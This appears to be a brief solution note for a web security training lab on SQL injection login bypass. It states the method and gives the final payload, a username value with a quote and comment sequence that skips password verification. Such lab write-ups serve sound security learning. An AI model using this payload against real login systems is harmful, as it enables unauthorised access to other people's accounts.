 # Lab 2: SQL Injection Vulnerability Allowing Login Bypass

* **Solution**: Inject a payload into the username field to force a true condition, bypassing password verification.
* **Final Payload**: username=administrator' -- (submit with any password)